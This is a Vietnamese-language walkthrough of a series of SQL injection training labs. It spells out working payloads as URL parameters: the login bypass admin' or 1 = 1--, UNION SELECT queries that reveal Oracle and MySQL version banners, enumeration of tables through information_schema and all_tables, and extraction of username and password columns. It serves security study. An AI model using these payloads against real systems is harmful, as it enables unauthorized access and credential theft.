


### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data


Đây là giao diện chính, mình click vô xem detail 1 sản phẩm thì thấy có xuất hiện productID ở URL 


Ta thấy filter category=Gift -> khả năng câu lệnh SQL được thực hiện như sau

```
SELECT * from <table_name> where category = 'input' AND released = 1
```

Ta sẽ sửa phần path như sau để xem được các sản phẩm chưa được release

filter?category=Gifts' or 1 = 1--

thì câu SQL trên là: 

```sql
SELECT * from <table_name> where category = 'Gift' or 1 = 1--' AND released = 1
```

-> Câu SQL trên luôn trả về là True, ta sẽ thấy all sản phẩm (kể cả các sản phẩm chưa được release).


### Lab: SQL injection vulnerability allowing login bypass


Ta nhập username: admin' or 1 = 1--, password giá trị nào cũng được

Khả năng câu SQL được thực thi như sau:

```sql
SELECT * FROM users WHERE username = 'admin' or 1 = 1-- and password = 'pwd'
```

Câu SQL trên đúng và ta vào được admin


### Lab: SQL injection attack, querying the database type and version on Oracle

Tương tự ta cũng thấy filter category, xác định số cột của category:


thử order by 3-- -> Lỗi 500 Internal Server Error -> 2 cột


Khả năng cao 2 cột này có kiểu là text.

Thử union select "duong", "hao" from dual-- xem dự đoán có chuẩn không? (dual là 1 table được Oracle cung cấp, được dùng để test) -> nếu union thành công -> dự đoán chuẩn


Lướt xuống dưới thì có duong hao


Cách kiểm tra version của các hệ quản trị CSDL


```
filter?category=Accessories' union select banner, null from v$version--
```

Kết quả:


### Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

Tương tự, ta cũng xác định được 2 cột có kiểu là text


Với MySQL và Microsoft dùng select @@ version -> mình sẽ filter như sau

```
filter?category=Gifts' union select @@version, null#
```

Kết quả:


### Lab: SQL injection attack, listing the database contents on non-Oracle databases

Tương tự, ta xác định được category có 2 column kiểu text.

Ta xác định danh sách các table có trong database:

```
filter?category=Pets' union select table_name, null from information_schema.tables--
```

Ta thu được 1 list các table như sau:


trong đó ta đoán table user_newtua chứa username, password của admin

Tiếp tục xem các column của table user_newtua



Ta nhận thấy có 2 column khả nghi là username_nwffts và password_rzyisn.

Tiếp tục:

```
category=Pet' union select username_nwffts, password_rzyisn from user_newtua--
```


và sau đó đăng nhập thành công


### Lab: SQL injection attack, listing the database contents on Oracle

Tương tự, ta thu được danh sách các table:

```
category=Gift' union select table_name, null from all_tables--
```


Ta thấy có table này


Tiếp tục xem danh sách column của table


```
filter?category=Gifts' union select USERNAME_GZVGTI, PASSWORD_ARMTHE from USERS_MXGZUE--
```

Thu được:



### Lab: SQL injection UNION attack, determining the number of columns returned by the query

Dùng union select null-- đến khi được :v


### Lab: SQL injection UNION attack, finding a column containing text


Nhận ra category có 3 column có kiểu lần lượt là số, chuỗi, số


Giờ thì thay tên column là được.


### Lab: SQL injection UNION attack, retrieving data from other tables

Kiểm tra thì thấy có 2 column (đã thử 3-- và lỗi)


Vậy 2 column đó đều có kiểu là chuỗi


Thay bằng username, password và table users

